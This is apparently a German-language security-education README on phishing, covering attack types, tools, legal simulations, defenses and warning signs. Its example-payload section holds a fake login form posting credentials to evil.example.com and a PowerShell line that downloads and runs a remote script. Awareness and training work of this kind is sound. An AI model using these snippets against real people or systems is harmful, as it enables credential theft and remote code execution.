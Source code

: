 # 🎣 Phishing – Social Engineering im Cyberspace

## Was ist Phishing?

**Phishing** ist eine Form des Social Engineerings, bei der Angreifer versuchen, sensible Informationen wie Zugangsdaten, Kreditkarteninformationen oder vertrauliche Unternehmensdaten durch Täuschung zu erlangen. Dies geschieht meist über gefälschte E-Mails, Webseiten oder Nachrichten, die von legitimen Quellen zu stammen scheinen.



## Inhaltsverzeichnis
- [Warum ist Phishing gefährlich?](#warum-ist-phishing-gefährlich)
- [Typen von Phishing](#typen-von-phishing)
- [Tools & Frameworks](#tools--frameworks)
- [Phishing-Kampagnen simulieren (Legal!)](#phishing-kampagnen-simulieren-legal)
- [Schutzmaßnahmen gegen Phishing](#schutzmaßnahmen-gegen-phishing)
- [Typische Merkmale einer Phishing-Mail](#typische-merkmale-einer-phishing-mail)
- [Beispielhafte Payloads & Angriffsformen](#beispielhafte-payloads--angriffsformen)
- [Nützliche Quellen & Lernmaterialien](#nützliche-quellen--lernmaterialien)
- [Haftungsausschluss](#haftungsausschluss)


## Warum ist Phishing gefährlich?

- Keine technische Schwachstelle notwendig – der Mensch ist das Ziel
- Sehr hohe Erfolgsquote bei ungeschulten Nutzern
- Einstiegspunkt für weitere Angriffe (z. B. Ransomware, interne Pivoting-Angriffe)
- Auch technische Fachkräfte sind nicht immun



## Typen von Phishing

| Typ                 | Beschreibung |
|---------------------|--------------|
| **Spear Phishing**  | Gezielte Angriffe auf bestimmte Personen, z. B. CFO, Admin |
| **Whaling**         | Hochrangige Zielpersonen (z. B. CEO, Vorstände) |
| **Clone Phishing**  | Duplikation legitimer E-Mails mit schädlichem Link/Anhang |
| **Voice Phishing (Vishing)** | Phishing über Telefonanrufe |
| **SMS Phishing (Smishing)** | Täuschung über SMS/WhatsApp-Nachrichten |
| **Pharming**        | Weiterleitung des Opfers über manipulierte DNS-Einträge |
| **Credential Harvesting** | Abgreifen von Zugangsdaten über gefälschte Login-Seiten |



## Tools & Frameworks

### Offensive Tools (nur zu Bildungszwecken!)

| Tool                 | Beschreibung |
|----------------------|--------------|
| **GoPhish**          | Open-Source Phishing Framework für Kampagnen |
| **SET (Social-Engineer Toolkit)** | Sammlung von Angriffsmethoden inkl. Mail- und Web-Phishing |
| **King Phisher**     | Phishing-Simulation mit E-Mail-Tracking |
| **Evilginx2**        | Man-in-the-middle Phishing mit 2FA-Bypass |
| **Modlishka**        | Reverse Proxy Phishing Tool |
| **Phishery**         | Word-Dokumente mit eingebetteten Login-Prompts |
| **Blackeye / Zphisher** | Templates für bekannte Login-Seiten (nur mit Zustimmung erlaubt!) |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Phishing-Kampagnen simulieren (Legal!)

### Legal Compliance beachten
- Nur in Testumgebungen oder mit Zustimmung aller Beteiligten
- Für Awareness-Trainings & Security Audits
- DSGVO-konform planen und dokumentieren

### Beispielhafte Simulationskampagne
1. Zielgruppe auswählen (z. B. bestimmte Abteilung)
2. E-Mail-Typ auswählen (z. B. Paketdienst, Microsoft-Login, Urlaubsantrag)
3. Landing Page imitieren (z. B. Office365)
4. Tracking aktivieren (z. B. Klicks, Eingaben, Reaktionen)
5. Reporting & Schulung bereitstellen



## Schutzmaßnahmen gegen Phishing

### Technische Maßnahmen
- SPF, DKIM, DMARC korrekt konfigurieren
- E-Mail-Gateway mit Phishing-Filter
- Browser-Warnungen aktivieren (z. B. Google Safe Browsing)
- 2FA/MFA verpflichtend einsetzen

### Awareness & Schulung
- Regelmäßige Trainings für Mitarbeiter:innen
- Simulierte Phishing-Kampagnen
- Wiederholende Reminder („Nicht auf alles klicken“)

### Weitere Maßnahmen
- Passwortmanager verwenden
- Kein „Passwort-Recycling“
- Prüfung der URL vor Eingabe von Login-Daten
- Anti-Phishing-Banner in E-Mails einbinden



## Typische Merkmale einer Phishing-Mail

- Dringlichkeit („Ihr Konto wird gelöscht!“)
- Schlechte Grammatik / Übersetzung
- Absenderadresse gefälscht
- Linktext ≠ Ziel-URL
- Ungewöhnliche Anhänge (z. B. .iso, .lnk, .html)
- Emotionale Trigger (z. B. Angst, Belohnung)



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Beispielhafte Payloads & Angriffsformen

```html
<!-- Gefälschte Login-Seite (Credential Harvesting) -->
<form action="http://evil.example.com/login" method="post">
  <input type="text" name="username" />
  <input type="password" name="password" />
</form>
```

```powershell
# Phishing-Anhang per PowerShell
IEX (New-Object Net.WebClient).DownloadString("http://evil.example.com/payload.ps1")
```



## Nützliche Quellen & Lernmaterialien
- [GoPhish Project](https://github.com/gophish/gophish)
- [SET – Social Engineer Toolkit](https://github.com/trustedsec/social-engineer-toolkit)
- [Modlishka](https://github.com/drk1wi/Modlishka)



## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---

